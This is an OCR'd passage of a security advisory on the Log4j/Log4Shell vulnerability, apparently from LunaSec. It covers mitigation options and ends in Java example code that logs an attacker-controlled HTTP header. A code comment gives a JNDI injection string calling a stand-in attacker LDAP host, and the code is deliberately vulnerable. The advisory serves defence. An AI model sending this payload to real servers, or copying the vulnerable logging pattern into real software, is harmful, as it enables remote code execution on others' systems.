 Warning: `formatMsgNoLookups` Does not protect against all attacks
As of Tuesday, Dec 14, it's been found that this flag is ineffective at stopping certain attacks, which is partially explained in
[CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046).  
You must update to `2.17.0`, or use the JNDI patches for temporary mitigation explained in [our mitigation guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/).

As per [this discussion on HackerNews](https://news.ycombinator.com/item?id=29507263):

> The 'formatMsgNoLookups' property was added in version 2.10.0, per the JIRA Issue LOG4J2-2109 [1] that proposed it. Therefore the 'formatMsgNoLookups=true' mitigation strategy is available in version 2.10.0 and higher, but is no longer necessary with version 2.15.0, because it then becomes the default behavior [2][3].
>
> If you are using a version older than 2.10.0 and cannot upgrade, your mitigation choices are:
>
> - ~~Modify every logging pattern layout to say `%m{nolookups}` instead of `%m` in your logging
    >   config files. See details at https://issues.apache.org/jira/browse/LOG4J2-2109 This only works on
    >   versions >= 2.7.~~ This is a bad strategy which will likely result in a vulnerability long-term.
>
> - Substitute a non-vulnerable or empty implementation of the
    class org.apache.logging.log4j.core.lookup.JndiLookup, in a way that your classloader uses your
    replacement instead of the vulnerable version of the class. Refer to your application or
    stack's classloading documentation to understand this behavior.

## How the exploit works

### Exploit Requirements

- A server with a vulnerable log4j version (listed above).
- An endpoint with any protocol (HTTP, TCP, etc), that allows an attacker to send the exploit string.
- A log statement that logs out the string from that request.

### Example Vulnerable Code

```ts
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://some-attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
```